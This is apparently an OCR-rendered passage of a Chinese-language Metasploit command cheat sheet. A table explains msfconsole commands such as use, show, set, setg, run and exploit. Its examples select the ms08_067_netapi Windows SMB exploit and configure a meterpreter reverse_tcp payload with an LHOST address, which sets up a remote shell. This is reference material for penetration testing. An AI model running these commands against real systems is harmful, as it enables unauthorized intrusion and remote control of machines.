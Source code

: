  |
| --- | --- | --- |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块的步骤 | 

```
msf>use exploit/windows/smb/ms08_067_netapi

```

 |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | 

```
msf>show exploits

```

 |
| `set [options/payload]` | 为特定对象设置值的步骤 | 

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 111.111.111.111

```

 |
| `setg [options/payload]` | 全局设置特定对象的值，以便在打开模块时值不会更改 | 

```
msf>setg payload windows/meterpreter/reverse_tcp
msf>setg LHOST 111.111.111.111

```

 |
| `run` | 设置所有必需选项后启动辅助模块 | 

```
msf>run

```

 |
| `exploit` | 利用 | 

```
msf>exploit

```
